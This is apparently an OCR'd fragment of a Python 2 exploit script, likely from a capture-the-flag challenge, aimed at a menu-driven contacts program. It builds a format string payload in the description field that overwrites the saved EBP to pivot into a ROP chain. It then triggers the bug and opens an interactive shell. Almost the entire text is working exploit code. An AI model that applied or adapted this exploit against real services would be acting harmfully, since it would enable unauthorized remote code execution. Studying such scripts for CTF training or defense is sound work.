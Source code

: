 ```python
  print msg

  return int(re.findall('.*Description:.*?\<(.*?)\>.*\n.*', msg)[0], 16)

def do_exploit(h, ropchain_addr):
  name = "exploit"
  date = "1"
  desc_len = "900"

  new_ebp = (ropchain_addr - 4)

  part_1 = floor(new_ebp / 2)
  part_2 = part_1 + (new_ebp - (part_1 * 2))

  # Overwrite saved EBP with (ropchain_addr - 4)
  desc_buffer = "%"+str(part_1)+"x%"+str(part_2)+"x%6$n"

  print "[ Sending exploit ]"

  # Create new contact
  h.sendline("1")
  msg = h.recvuntil('Enter name: ')
  print msg
  h.sendline(name)

  msg = h.recvuntil('Enter date: ')
  print msg
  h.sendline(date)

  msg = h.recvuntil('Enter length of description: ')
  print msg
  h.sendline(desc_len)

  msg = h.recv(1024)
  print msg
  h.sendline(desc_buffer)

  msg = h.recvuntil('Enter choice: ')
  print msg

  print "[ Exploit sent ]"

  # Trigger exploit
  print "[ Triggering format string vulnerability ]"

  # Display contacts
  h.sendline("3")
  # Receive printed output until we are back at menu
  msg = h.recvuntil('Enter choice: ')

  print "[ Triggering RCE condition ]"
  # Exit
  h.sendline("4")

  # Waiting for the shell to pop
  h.interactive()

  return

host = 'host'
port = 'port'

offset_libc_start_main = 0x01eec0
```